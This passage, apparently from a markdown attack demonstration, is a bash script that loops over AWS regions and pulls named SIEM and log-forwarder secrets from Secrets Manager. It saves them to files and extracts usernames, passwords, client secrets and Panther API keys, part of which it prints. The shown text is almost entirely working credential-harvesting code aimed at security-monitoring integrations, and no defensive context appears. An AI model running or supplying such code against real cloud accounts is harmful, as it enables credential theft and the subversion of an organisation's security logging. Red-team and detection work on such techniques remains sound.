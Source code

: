 ```bash

echo "Total secrets discovered: ${#DISCOVERED_SECRETS[@]}"
```

### Retrieve SIEM Integration Secrets

```bash
echo "=== Retrieving high-value secrets ==="

# Target SIEM integration credentials
TARGET_SECRETS=("siem-integration-credentials" "log-forwarder-api-credentials")

for region in "${US_REGIONS[@]}"; do
    for secret_name in "${TARGET_SECRETS[@]}"; do
        echo "Attempting to retrieve $secret_name from $region"
        
        secret_value=$(aws secretsmanager get-secret-value \
            --region $region \
            --secret-id $secret_name \
            --query 'SecretString' \
            --output text 2>/dev/null)
        
        if [ $? -eq 0 ]; then
            echo "Successfully retrieved $secret_name from $region"
            echo "$secret_value" > "$DEMO_LOG_DIR/${secret_name}_${region}.json"
            
            # Extract key values for demo
            if [[ $secret_name == "siem-integration-credentials" ]]; then
                SIEM_USERNAME=$(echo "$secret_value" | jq -r '.username')
                SIEM_PASSWORD=$(echo "$secret_value" | jq -r '.password')
                SIEM_CLIENT_ID=$(echo "$secret_value" | jq -r '.client_id')
                SIEM_CLIENT_SECRET=$(echo "$secret_value" | jq -r '.client_secret')
                SIEM_AUTH_URL=$(echo "$secret_value" | jq -r '.auth_url')
                
                echo "Extracted SIEM credentials:"
                echo "  Username: $SIEM_USERNAME"
                echo "  Password: [REDACTED]"
                echo "  Client ID: $SIEM_CLIENT_ID"
            fi
            
            if [[ $secret_name == "log-forwarder-api-credentials" ]]; then
                PANTHER_API_KEY=$(echo "$secret_value" | jq -r '.api_key')
                PANTHER_ORG_ID=$(echo "$secret_value" | jq -r '.organization_id')
                PANTHER_ENDPOINT=$(echo "$secret_value" | jq -r '.api_endpoint')
                
                echo "Extracted Panther API credentials:"
                echo "  API Key: ${PANTHER_API_KEY:0:20}..."
                echo "  Org ID: $PANTHER_ORG_ID"
                echo "  Endpoint: $PANTHER_ENDPOINT"
            fi
        fi
    done
done
```
